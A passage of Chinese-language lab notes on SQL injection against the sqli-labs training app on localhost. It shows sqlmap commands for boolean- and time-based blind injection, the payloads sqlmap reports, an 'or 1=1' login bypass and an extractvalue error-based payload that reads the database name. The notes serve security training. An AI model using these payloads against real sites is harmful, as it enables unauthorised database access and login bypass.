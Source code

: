 

**Sqlmap下测试**

查询库名

```
python sqlmap.py -u "http://localhost/sqlilabs/Less-8/?id=1" --technique B --dbs --batch   #布尔型盲注
```

```
python sqlmap.py -u "http://localhost/sqlilabs/Less-9/?id=1" --technique T --dbs --batch   #时间盲注
```

payload

```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1' AND 1071=1071 AND 'MFtC'='MFtC
```

```
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 5530 FROM (SELECT(SLEEP(5)))VtGF) AND 'VpPN'='VpPN
```

后续步骤与上述Sqlmap测试方法一致

......



## POST 报错注入

**通过SQL的or运算符，构造万能密码，判断是否为注入点**

判断注入点（添加单引号后报错）

![image-20201203161208957](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201203161208957.png)

```
uname=admin' or 1=1--+&passwd=123456 构造万能密码
```

![image-20201202230449498](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201202230449498.png)

判断出注入点之后，就可以利用报错注入,布尔盲注，时间盲注等，获得我们想要的相关信息

如利用报错注入获取当前数据库

```
uname=admin' or extractvalue(1,concat(0x7e,(database()),0x7e))--+&passwd=123456
```

![image-20201202230243117](C:\Users\32662\AppData\Roaming\Typora\typora-user-images\image-20201202230243117.png)

......
